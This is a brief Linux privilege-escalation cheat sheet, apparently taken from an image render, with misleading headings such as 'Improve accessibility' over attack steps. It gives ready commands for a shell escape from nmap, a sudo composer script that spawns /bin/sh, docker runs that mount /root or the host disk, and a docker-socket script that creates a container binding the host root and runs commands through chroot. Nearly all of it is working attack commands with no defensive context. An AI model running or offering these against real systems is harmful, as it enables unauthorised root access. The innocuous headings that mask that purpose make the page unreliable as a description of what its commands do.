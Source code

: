 ```text
(From within nmap)
!sh
```

 [netsec.ws](http://netsec.ws/?p=337)

## Improve accessibility

Help: https://gtfobins.github.io/

### Increasing accessibility with composer

```text
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

### Increasing access with docker

You must be logged in with an application that is a member of the docker group.

```text
docker run -v /root:/mnt -it ubuntu
```

Or

```text
docker run --rm -it --privileged nginx bash
mkdir /mnt/fsroot
mount /dev/sda /mnt/fsroot
```

### Increasing access with docker socket


```text

Checking docker exposure

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

We do the following commands in the script.

cmd="whoami"
payload="[\"/bin/sh\",\"-c\",\"chroot /mnt sh -c \\\"$cmd\\\"\"]"
response=$(curl -s -XPOST --unix-socket /var/run/docker.sock -d "{\"Image\":\"sandbox\",\"cmd\":$payload, \"Binds \": [\"/:/mnt:rw\"]}" -H 'Content-Type: application/json' http://localhost/containers/create)

revShellContainerID=$(echo "$response" | cut -d'"' -f4)

curl -s -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/$revShellContainerID/start
sleep 1
curl --output - -s --unix-socket /var/run/docker.sock "http://localhost/containers/$revShellContainerID/logs?stderr=1&stdout=1"

Then we run it.

./docket-socket-expose.sh
```
